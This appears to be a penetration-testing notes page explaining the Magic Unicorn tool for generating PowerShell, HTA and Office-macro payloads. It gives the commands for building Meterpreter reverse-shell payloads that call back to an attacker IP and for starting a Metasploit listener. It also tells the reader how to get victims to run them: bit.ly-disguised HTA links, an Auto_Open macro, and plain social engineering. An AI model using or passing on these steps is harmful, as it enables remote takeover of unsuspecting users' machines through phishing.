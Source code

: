 # ⭕ Magic Unicorn

{% embed url="https://github.com/trustedsec/unicorn" %}

Magic Unicorn is a simple tool for using a PowerShell downgrade attack and inject shellcode straight into memory. Based on Matthew Graeber's powershell attacks and the powershell bypass technique presented by David Kennedy (TrustedSec) and Josh Kelly at Defcon 18.

```
git clone https://github.com/trustedsec/unicorn.git

./unicorn.py
```

### <mark style="color:orange;">**Powershell Attack**</mark>

```
./unicorn.py windows/meterpreter/reverse_tcp 192.168.1.109 4444
```

Now this will give us two files. One is a text file named “powershell\_attack.txt” which has the PowerShell code that will be run in the victim’s machine using social engineering and the other is “unicorn.rc” which is a custom Metasploit file that will automatically set all the parameters and start a listener.

```
msfconsole -r unicorn.rc

# or if msf is already running :
msf> resource unicorn.rc
```

deliver the payload from powershell\_attack.txt file to the victim (via CMD or somewhere else) and you have a shell.

### <mark style="color:orange;">**HTA Attack**</mark>

```
./unicorn.py windows/meterpreter/reverse_https 192.168.1.109 4455 hta
```

Now convert your IP in bit.ly URL form and send to the victim and then wait for the user to click on the “launcher.hta” file which could be done using social engineering easily.

{% hint style="info" %}
The victim has to open the link to your hosted index.html file and click "open" when prompt for the HTA file to run.
{% endhint %}

### <mark style="color:orange;">**Macro Attack**</mark>

```
./unicorn.py windows/meterpreter/reverse_https 192.168.1.109 443 macro
```

This again creates a text file and a “**.rc**” file with the same name and on the same destination.

To enable developer mode there are various methods depending upon your version of MS office.

As for a generic approach, let’s say you enabled it like:

**File->properties->ribbons->developer mode**

![](<../../.gitbook/assets/image (296).png>)

You will see an extra tab labeled developer once it gets enabled.

As for the attack, go to developer->macros and create a new macro named “Auto\_Open”

![](<../../.gitbook/assets/image (295).png>)

Simply paste the contents from “powershell\_attack.txt” to this xlsx module and save it.

![](<../../.gitbook/assets/image (298).png>)

As soon as you click run (little green icon on the top), it will give you an error! Don’t worry! You want that error. It is supposed to happen.

![](<../../.gitbook/assets/image (301).png>)
